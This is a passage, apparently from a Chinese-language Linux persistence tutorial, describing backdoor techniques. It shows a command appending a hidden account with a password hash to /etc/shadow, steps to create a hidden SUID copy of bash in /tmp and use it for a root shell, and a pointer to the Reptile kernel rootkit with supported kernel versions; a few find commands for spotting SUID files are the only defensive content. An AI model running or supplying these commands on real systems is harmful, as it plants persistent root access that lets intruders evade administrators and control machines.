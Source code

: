 ```
echo "momaek:savbSWc4rx8NY:-1:-1:-1:-1:-1:-1:500" >> /etc/shadow


```

### 0x02 SUID 后门

当一个文件所属主的 x 标志位 s(set uid 简称 suid) 时，且所属主为 root 时，当执行该文件时，其实是以 root 身份执行的。必要条件：

```
1、SUID权限仅对二进制程序有效。 
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效  
4、在执行过程中执行者将具有该程序拥有者的权限


```

创建 suid 权限的文件：

```
$cp /bin/bash /tmp/.woot
$chmod 4755 /tmp/.woot
$ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot


```

使用一般用户运行：

```
$/tmp/.woot 
$/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell


```

检测：查找具有 suid 权限的文件即可

```
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null


```

### 0x03 LKM Linux rootkit 后门

项目地址:[https://github.com/f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

适用的系统:

```
Debian 9：4.9.0-8-amd64 
Debian 10：4.19.0-8-amd64 
Ubuntu 18.04.1 LTS：4.15.0-38-generic 
Kali Linux：4.18.0-kali2-amd64 
Centos 6.10：2.6.32- 754.6.3.el6.x86\_64 
Centos 7：3.10.0-862.3.2.el7.x86\_64 
Centos 8：4.18.0-147.5.1.el8\_1.x86\_64


```
